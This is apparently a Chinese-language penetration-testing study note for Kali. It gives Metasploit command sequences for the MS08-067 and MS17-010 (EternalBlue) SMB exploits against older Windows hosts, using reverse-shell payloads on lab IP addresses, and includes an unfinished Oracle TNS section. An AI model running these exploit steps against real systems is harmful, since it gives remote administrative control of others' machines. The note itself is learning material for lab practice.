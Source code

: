 # Kali 网络服务渗透学习

## ms08_067 渗透学习
### 概述
* 这个漏洞利用445端口，主要用于windows 2000、windows 2003和 xp系统
* 溢出成功后，直接获得最高权限
* 一般用于内网渗透
* 高可靠
* 有时LHOST不正确，会导致目标机器的SMB服务崩溃
### 指令
```
msf> search ms08_067
>use exploit/windows/smb/ms08_067_netapi
>show payloads #显示可用的payload
>set payload generic/shell_reverse_tcp #反向的
>show options
>show targets #看看支持哪些攻击目标，如果已经收集到目标的操作系统信息，选择详细的，否则使用自动的
>set RHOST 10.10.10.130
>set LPROT 5000
>set LHOST 10.10.10.129
>set target 7
>exploit
```

### 其他
* win7之后的永恒之蓝: ms17_010,待实践
```
msf>search ms17_010
>use exploit/windows/smb/ms17_010_eternalblue
>show payloads #显示可用的payload
>set payload generic/shell_reverse_tcp
>show options
>set RHOST 192.168.10.130
>set LHOST 192.168.10.131
>run
```
* 建议payload用windows/x64/meterpreter/reverse_tcp

## Oracle TNS 渗透学习
### 概述
* 漏洞针对Oracle TNS服务
* 端口 1521
* 影响版本 10.1.0.5~10.2.0.4
* 1521/tcp open  oracle-tns      Oracle TNS Listener 10.2.0.1.0 (for 32-bit Windows)
### 命令
TODO：需要构造与目标相同的环境，并修改利用脚本。